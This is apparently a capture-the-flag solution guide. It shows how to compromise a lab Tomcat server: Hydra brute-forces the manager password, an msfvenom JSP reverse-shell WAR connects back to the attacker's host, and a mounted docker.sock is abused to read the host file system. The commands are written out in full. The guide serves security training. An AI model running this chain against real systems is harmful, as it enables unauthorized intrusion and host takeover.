# Let Loose the Logs of War

*Solution Guide*

## Overview

In *Let Loose the Logs of War* players are expected to exploit a webserver running in a Docker container and access the host file system.

## Question 1

*Enter Token 1 found in the / directory of the webserver container.*

Begin by logging into the `log-viewer` Kali VM and browsing to the webserver at `10.5.5.100`. It may take a few minutes for the server to start. You are presented with the following page:



You can experiment with this page if you want, but it is just a log viewer and has no bearing on the challenge itself. Let's begin by trying to examine the host machine.

1. Open a terminal and run the following command to show open ports:

```bash
nmap -sV 10.5.5.100
```



Apache Tomcat is running on port `8080` and an Apache web server is on `80`.

2. Browsing to `10.5.5.100:8080` shows a **HTTP Status 404 – Not Found** page. Let's try using DirBuster on the two ports:

```bash
dirb http://10.5.5.100
dirb http://10.5.5.100:8080
```

You'll see the **manager** page is accessible on port `8080`:



3. Browse to `http://10.5.5.100:8080/manager`. It looks like we need to log in.



4. We can try to brute-force the password using Hydra. Move the `wordlist.txt` file from the CDROM to the Desktop. The challenge instructions say to use the login *admin*:

```bash
hydra -s 8080 -l admin -P /home/user/Desktop/wordlist.txt 10.5.5.100 http-get /manager/html -m "/manager/html" -t 4
```



>**Note:** Your password will be different as it is randomized for each challenge launch.

5. Use the credentials to login. You can now access the **Tomcat Web Application Manager** page.



6. Look at the **WAR file to deploy** section -- we're interested in this section



7. Let's generate a reverse shell with **msfvenom**:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.5.5.60 LPORT=9999 -f war > shell.war
```



This creates a file that attempts to reach back to your machine with an interactive shell. Your machine's IP address will be different for the `LHOST` setting. You can get your IP address using the command `ip a`.

8. Go back to the Tomcat Web Application Manager in the browser. In the **WAR file to deploy section**, select the **Browse** button, then navigate to and highlight your generated `.war` file and select **Open**. You will see the name of your file to the right of the **Browse** button.



9. Before deploying the WAR file, open a Netcat listener on your machine. In the terminal, enter:

```bash
nc -klvp 9999
```

This opens a Netcat listener with these options:

- `-k` option keeps the listener open if it disconnects.
- `-l` option specifies that Netcat should listen for incoming connections.
- `-p` specifies the port number (`9999` in our case, which we chose when making the WAR file) it should listen on.



10. Once the listener is open, click **Deploy** on the Tomcat Web Application Manager in the browser. You should see the **/shell** app now showing in the Applications section of the Tomcat Manager page.


11. Open the **/shell** link on the manager page. You will see a connection message in your listener window.



12. Let's find out which user we are with the `whoami` command. Good! We're `root`, but that's not normal...right? We know from reading the challenge question that we are in web server container.



13. So, to get Token 1, enter `ls /` to list the contents of the root folder... and there is Token 1.



14. Enter `cat /TOKEN1.txt` to get the answer to question 1.

>Remember, your answer will be different because the tokens are randomized per challenge launch.



## Question 2

*Enter Token 2 found in the /home/user/ directory of the host system.*

1. Since we're in a container, we can explore vulnerabilities. The administrator mistakenly mounted `docker.sock` in the container, allowing access to the root file system. Confirm the mount by entering:

```bash
ls /var/run/docker.sock
```



2. List the images on the host you have available (since this is an isolated environment without access to the Docker repository) with this command:

```bash
curl --unix-socket /var/run/docker.sock http://localhost/images/json | awk '{gsub(/},\s*{/, "}\n{\n"); gsub(/^\[\s*/, "[\n"); gsub(/\s*\]$/, "\n]"); gsub(/,\s*$/, "\n"); print}'
```

>The `| awk...` part is not necessary, but it makes the output a little more readable.



3. Looking at the output, we can see there are three versions of Tomcat images installed on the system. We can use the Docker socket to create a container to display the contents of the folders on the host.

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
   -d '{
     "Image": "tomcat:latest",
     "Cmd": ["/bin/sh", "-c", "ls /host/home/user/"],
     "HostConfig": {
       "Binds": ["/:/host"]
     }
   }' http://localhost/containers/create
```

This outputs a container `Id` for the container you just created:



4. Let's start our container. Your command will be different than the command below. Be sure to use the container `Id` output from the previous command.

```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/02a5d7e0420b83ae2699a91c91d726c0b96ca01eee2178f25edd2d382deeb6d9/start
```

5. Now we need to view the Docker logs to get the output from our `ls` command in the container we just built (again, note that your container `Id`will be different):

```bash
curl --unix-socket /var/run/docker.sock "http://localhost/containers/02a5d7e0420b83ae2699a91c91d726c0b96ca01eee2178f25edd2d382deeb6d9/logs?stdout=true"
```



6. We see the token there, but we need the contents of the file. To get that, let's build a new container with the `cat` command in place of `ls`:

```bash
curl --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
   -d '{
     "Image": "tomcat:latest",
     "Cmd": ["/bin/sh", "-c", "cat /host/home/user/TOKEN2.txt"],
     "HostConfig": {
       "Binds": ["/:/host"]
     }
   }' http://localhost/containers/create
```

Again, your `Id` will be different.



7. Run the new container (remembering, of course, that your `Id` is different than what is presented in this solution guide).

```bash
curl --unix-socket /var/run/docker.sock -X POST http://localhost/containers/e5fb1bb516e59fd223c4aa5bfc6f5fdafbe47babb8f105327cd3c1d68e7662dc/start
```

8. Finally, let's get the logs from the new container and get our token.

```bash
curl --unix-socket /var/run/docker.sock "http://localhost/containers/e5fb1bb516e59fd223c4aa5bfc6f5fdafbe47babb8f105327cd3c1d68e7662dc/logs?stdout=true"
```



The token you would submit for Question 2 is: `456758895`. Your answer will be different because the tokens are randomized per challenge launch.